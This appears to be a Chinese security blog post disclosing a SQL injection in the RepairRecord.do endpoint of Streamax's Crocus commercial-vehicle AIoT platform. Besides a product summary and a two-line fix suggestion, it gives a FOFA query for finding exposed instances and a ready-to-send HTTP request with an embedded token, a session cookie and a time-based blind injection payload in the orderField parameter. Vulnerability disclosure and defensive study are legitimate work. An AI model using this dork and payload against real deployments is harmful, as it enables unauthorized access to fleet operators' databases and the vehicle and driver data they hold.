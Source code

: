 #  锐明技术Crocus系统 RepairRecord.do SQL注入漏洞   
原创 lcyunkong  云途安全   2025-02-27 06:51  
  
0x00 阅读须知  
  
**本文所涉及的技术及相关工具仅供学习和研究用途，严禁将其用于任何非法活动。任何个人或组织因利用本文内容从事非法行为所引发的直接或间接后果及损失，均由行为人自行承担全部责任，作者及平台对此概不负责。本文所提供的工具来源于网络，其安全性请使用者自行评估。如涉及侵权，请联系删除。再次重申，本文内容仅限于合法学习与研究，任何非法使用行为均与作者及平台无关，相关责任由使用者自行承担。**  
  
### 0x01 产品简介  
###   
###         锐明技术作为一家专注于AI和视频技术的商用车智能物联（AIoT）解决方案提供商，Crocus系统是其核心产品之一。Crocus系统旨在利用人工智能、高清视频、大数据和自动驾驶技术，帮助商用车减少交通事故和货物丢失，提高企业或车队的运营效率。通过车载摄像头、毫米波雷达等传感器，实现对车辆周围环境的实时感知和监控，提高驾驶安全性。利用AI技术，系统能够识别车辆和行人的身份，并分析驾驶员的驾驶行为，及时提醒驾驶员注意潜在风险。Crocus系统能够实时监控货箱状态，包括货物是否丢失、货箱是否关闭等，并通过3D检测技术实现更精准的货物识别和管理。  
###   
### 0x02 漏洞详情  
  
****  
**fofa：**  
**app="/ThirdResource/respond/respond.min.js" && title="Crocus"**  
  
**Poc：**  
```
POST /RepairRecord.do?Action=QueryLast HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Token: c3RyZWFtYXgyMDAyMDgxODoxNzI0NjM2OTQyMTA0Ljg4NDU=
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: Saffron.U=VUlEPTEmVU49c3RyZWFtYXgyMDAyMDgxOCZHSUQ9MTcyNDYzNjk0MjEwNC44ODQ1MTQmUklEPTEmTT1CTWFwJklOUz0x
Connection: close
EndTime=2024-08-20+00%3A00%3A00&PageIndex=0&PageSize=20&RepairState=-1&StartTime=2024-08-26+00%3A00%3A00&orderField=(select*from(select%0asleep(5))a)&orderType=asc
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Z8DAfzBiajSYyicLs2ooaSnnwqCoANqWiakRNEnzW4NyJMDnibOtOVkBg9Bnwk9VuqbVOg9E2V9xhSTtibaBCMhr8Gw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Z8DAfzBiajSYyicLs2ooaSnnwqCoANqWiakaoLJHAzj4el8BvUFxXibZQRmtUxNspV0NVATukxIOnh4RYLChWAhnyQ/640?wx_fmt=png&from=appmsg "")  
  
**0x03 修复建议**  
  
****  
**关闭互联网暴露面或接口**  
  
**升级至安全版本**  
  
  
  
  
  
  
  
  
  
  
